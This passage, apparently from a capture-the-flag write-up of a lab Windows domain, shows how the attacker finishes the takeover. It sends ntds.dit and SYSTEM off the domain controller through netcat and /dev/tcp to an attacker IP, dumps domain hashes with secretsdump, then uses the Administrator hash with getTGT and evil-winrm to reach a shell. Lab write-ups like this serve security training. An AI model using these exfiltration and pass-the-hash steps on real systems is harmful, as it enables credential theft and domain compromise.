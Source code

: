 
```
Start a listener on our machine redirecting output to a file
nc -lvnp 9001 > ntds.dit
Send the file from the DC
cat ntds.dit > /dev/tcp/OUR_IP/9001
Repeat the process for the SYSTEM file
```

One we have both of these files we can dump the hashes from the domain using the following command:

```
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xbbdd1a32433b87bcc9b875321b883d2d
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 898238e1ccd2ac0016a18c53f4569f40
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2:::
<SNIP>
```

With the lmhash:nthash from the Administrator user we can reqeust a ticket with getTGT and login with evil-winrm
```
faketime -f "+8h" getTGT.py -dc-ip 10.10.11.76 voleur.htb/Administrator -hashes aad3b435b51404eeaad3b435b51404ee:e656e07c56d831611b577b160b259ad2
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in Administrator.ccache

export KRB5CCNAME=Administrator.ccache 

faketime -f "+8h" evil-winrm -i dc.voleur.htb -r VOLEUR.HTB  
Evil-WinRM shell v3.5                                                                               
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ~/Desktop/root.txt
05122edb7<SNIP>
```